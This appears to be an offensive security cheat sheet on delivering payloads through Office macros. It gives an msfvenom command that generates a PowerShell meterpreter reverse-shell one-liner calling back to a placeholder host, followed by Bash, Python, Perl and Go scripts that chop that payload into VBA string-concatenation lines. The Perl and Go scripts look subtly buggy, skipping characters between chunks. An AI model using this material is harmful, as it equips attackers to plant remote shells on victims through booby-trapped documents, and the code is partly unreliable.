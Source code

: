 # Payload Delivery

## 01 - Macro Scripts

- Generate a powershell one liner.

```
$ msfvenom -p windows/x64/meterpreter/reverse_http[s] lhost=<IP> lport=<PORT> -f psh-cmd
```

### 1.1 - Bash

`$ cat vba-macro-payload-format.sh`

---

```bash
#!/bin/bash

string=""
chunks=50

for (( i=0; i<${#string}; i+=chunks ))
do
    if [[ ${i} -eq 0 ]]
    then
        echo "string=\"${string:i:chunks}\""
    else
        echo "string+=\"${string:i:chunks}\""
    fi
done
```

### 1.2 - Python

`$ cat vba-macro-payload-format.py`

---

```python
#!/usr/bin/env python

string = ""
n = 50

for i in range(0, len(string), n):
    print("Str = Str + \"" + string[i:i+n] + "\"")
```

`$ cat vba-macro-payload-format.pl`

---

```perl
#!/usr/bin/env perl

my $string = "";

my @characters = ($string =~ /(.)/g);

$concatenated_string = "";

for(my $i = 0; $i < scalar(@characters); $i++) {
    $concatenated_string .= "Str = Str + \"";
    for(my $j = 0; $j < 50; $j++) {
        $concatenated_string .= $characters[$i++];
    }
    $concatenated_string .= chr(34)."\n";
}
print $concatenated_string;
```

`$ cat vba-macro-payload-format.go`

---

```go
package main

import "fmt"

func main() {
    String := ""

    for i := 0; i < len(String); i++ {
        fmt.Print("Str = Str + \"")
        for j := 0; j < 50; j++ {
            if i == len(String) {
                break
            }
            fmt.Printf("%c", String[i])
            i++
        }
        fmt.Print("\"\n")
    }
}
```